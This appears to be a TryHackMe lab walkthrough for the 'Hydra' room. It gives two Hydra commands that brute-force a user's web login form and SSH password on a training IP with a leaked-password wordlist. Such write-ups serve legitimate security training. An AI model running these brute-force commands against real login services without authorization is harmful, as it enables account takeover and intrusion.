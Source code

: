 # Hydra&#x20;

**Room Link:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)

## **Walkthrough**

**Use Hydra to brute force molly's web password. What is flag 1?**

Opened up the webconsole and tried entering the credentials to see what the request would look like. We can see the failed login attempt message and the fields used for login which we can used to craft our hydra command.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

`hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V`

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

`hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 -t 4 ssh -V`
